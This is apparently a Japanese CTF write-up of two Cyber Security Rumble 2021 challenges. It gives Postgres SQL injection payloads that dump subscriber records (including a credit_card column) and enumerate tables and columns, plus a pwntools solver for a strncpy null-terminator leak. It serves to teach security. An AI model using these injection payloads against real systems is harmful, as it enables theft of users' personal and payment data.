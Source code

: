 ```yaml
---
title: Cyber Security Rumble CTF 2021 Writeup
date: "2021-11-30"
template: "post"
draft: false
slug: "ctf-rumblectf-2021"
category: "CTF"
tags:
  - "CTF"
  - "Web"
  - "Pwn"
description: "2021/11/26から開催されていたCyber Security  Rumble 2021 CTFに参加してきました。"
socialImage: "/media/cards/no-image.png"
---
```


2021/11/26から開催されていたCyber Security  Rumble 2021 CTFに参加してきました。

いくつかWriteUpを書いていきます。

<!-- omit in toc -->
## もくじ
- [Stonks Street Journal(Web)](#stonks-street-journalweb)
	- [SQLインジェクションで他のユーザの情報を取得する](#sqlインジェクションで他のユーザの情報を取得する)
	- [SQLインジェクションで他のテーブルを探索する](#sqlインジェクションで他のテーブルを探索する)
	- [SQLインジェクションでカラムの情報を探索する](#sqlインジェクションでカラムの情報を探索する)
- [Flag Checker, Baby(Pwn)](#flag-checker-babypwn)
- [まとめ](#まとめ)

## Stonks Street Journal(Web)

Webサイトにアクセスすると、会員制のニュースニュースサイトにアクセスできます。

会員登録を行うと、ユーザ登録は完了しないものの、登録情報が確認できるInvoiceページにリダイレクトされます。

このページは、以下のようなURLでアクセスされるページであり、`username-2021-11-27`のような登録ユーザと日付をBase64エンコーディングしたパスで管理されています。

`http://ssj.rumble.host/legacy_invoice_system/dGVzdHVzZXItMjAyMS0xMS0yNw==`

ここで、usernameの部分か日付の部分をフォーマットに合わない適当な文字列に変更してみたところ、SQL文のエラーが発生したため、SQLインジェクションの脆弱性が存在することがわかりました。

### SQLインジェクションで他のユーザの情報を取得する

まずはテーブル内の他のユーザの情報を探索するところから始めました。

探索にはUNIONインジェクションが使えそうでした。

ユーザを管理しているテーブル名についてはWHEREやHAVINGなどのコマンドを使ってエラーメッセージを出力させることで、`news_subscriber`であるということが特定できました。

``` sql
Rakete-2021-11-26' UNION SELECT id,username,null,pensi,email,credit_card,null FROM news_subscriber WHERE id=10--
```

そのため、上記のようなコマンドでIDやUsernameを指定してユーザページを一つずつ確認することができます。

しかし、残念ながら`news_subscriber`のテーブルをすべて探索しても、Flagにつながりそうなユーザは存在しませんでした。

### SQLインジェクションで他のテーブルを探索する

次に、`news_subscriber`以外のテーブルを見つけるべく、探索を行うことにしました。

``` sql
Rakete-2021-11-26' UNION SELECT id,version(),null,null,null,null,null FROM news_subscriber
```

データベースの種類については、上記のように`version()`コマンドを利用することで、Postgresであることが特定できました。

データベースがPostgresであるので、テーブル情報については`pg_tables`の`tablename`から参照することができます。

取得方法はいくつかありますが、先頭から順に網羅するなら`LIMIT 1 OFFSET n`の構文が便利です。

また、特定の文字列を含むテーブルを探索したい場合には`LIKE`も有効です。

``` sql
# 6番目のテーブルをSQLインジェクションで取得
Rakete-2021-11-26';SELECT null,tablename,null,null,null,null,null FROM pg_tables LIMIT 1 OFFSET 6;--

# テーブル名にnameが含まれるテーブルをSQLインジェクションで取得
Rakete-2021-11-26';SELECT null,tablename,null,null,null,null,null FROM pg_tables WHERE tablename LIKE '%name%';--
```

上記の方法でテーブルを探索した結果、`news_article`というテーブルが見つかりました。

### SQLインジェクションでカラムの情報を探索する

Flagはどうやら`news_article`テーブルに存在していそうだということがわかりました。

そのため、`news_article`テーブルのカラムについて探索していきます。

Postgresの場合、特定のテーブルのカラムの情報は`information_schema.columns WHERE table_name='news_article'`の形式で絞りこむことができます。

あとは先ほどテーブル情報を取得したときと同じく、LIMITやLIKEを使ってカラムの情報を洗い出した後、UNIONインジェクションを用いてカラムの情報を取得することで、Flagを取得できます。

``` sql
Rakete-2021-11-26';SELECT null,column_name,null,null,null,null,null FROM information_schema.columns WHERE table_name='news_article' AND column_name LIMIT 1 OFFSET 3;--

Rakete-2021-11-26';SELECT null,column_name,null,null,null,null,null FROM information_schema.columns WHERE table_name='news_article' AND column_name LIKE '%te%'--
```

この方法を用いることで、以下のようにInvoiceページのタイトルからFlagの情報を取得することができました。

![image-14.png](../../static/media/2021-11-30-ctf-rumblectf-2021/image-14.png)

参考：[Stonks Street Journal - CTFs](https://ctf.zeyu2001.com/2021/cybersecurityrumble-ctf/stonks-street-journal)

## Flag Checker, Baby(Pwn)

バイナリとソースコードが与えられます。

ソースコードを読むと、以下の挙動になることがわかります。

1. 入力された文字列とFLAGをcheck関数に渡す
2. 入力された文字列が32バイト(guessのサイズ)より大きい場合は、関数は呼び出されない
3. 変数guessには、入力した文字列が格納される
4. 変数flagには、FLAGが格納される
5. 変数flagと変数guessはstrcmpで比較され、一致した場合はフラグが表示され、不一致の場合はguessの値が表示される
6. ローカル変数のメモリアドレスを考えると、変数flagは変数guessの後に連結して配置されている
7. guess変数は32バイトまでしか受け取れないので、32バイト分のヌル文字を含まない値を入力することで、`printf("Wrong flag: %s\n", guess);`の行に連結された変数guessと変数flagの値が出力される。

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void check(const char *input, const char *secret_flag) {	
	char guess[32], flag[64];
	if (strlen(input) > sizeof(guess)) {
		puts("HACKER!");
		return;
	}

	strncpy(guess, input, sizeof(guess));
	strncpy(flag, secret_flag, sizeof(flag));
	if (!strcmp(guess, flag)) {
		printf("Well done! You got it: %s\n", flag);
	}
	else {
		printf("Wrong flag: %s\n", guess);
	}
}

int main(int argc, char** argv) {
	setvbuf(stdout, NULL, _IONBF, 0);
	setvbuf(stdin, NULL, _IONBF, 0);

	char *secret_flag = getenv("FLAG");
	if (!secret_flag) {
		puts("Flag not found, contact challenge authors.");
		return 1;
	}

	char input[128];
	printf("Enter the flag: ");
	fgets(input, sizeof(input), stdin);
	check(input, secret_flag);

	return 0;
}
```

このSolverでFLAGを取得できます。

``` python
from pwn import *
import binascii
import time

elf = ELF("./chall")
context.binary = elf

payload = b"\x41"*31

# Local
p = process("./chall")
# p = remote("challs.rumble.host", 53921)

r = p.recv()
p.sendline(payload)
p.interactive()
```

参考：[CTF-writeups/Pwn - Flag Checker, Baby.md at main · aly-ab/CTF-writeups](https://github.com/aly-ab/CTF-writeups/blob/main/notes/cybersecurityrumble/Pwn%20-%20Flag%20Checker%2C%20Baby.md)

## まとめ

Revの問題にLinuxのGame問題があったので何とか解きたかったのですが、結局解くことができませんでした。

WriteUpが見当たらないのでいまだに謎のままですが、もしWriteUpが見つかればこの記事も更新しようと思います。
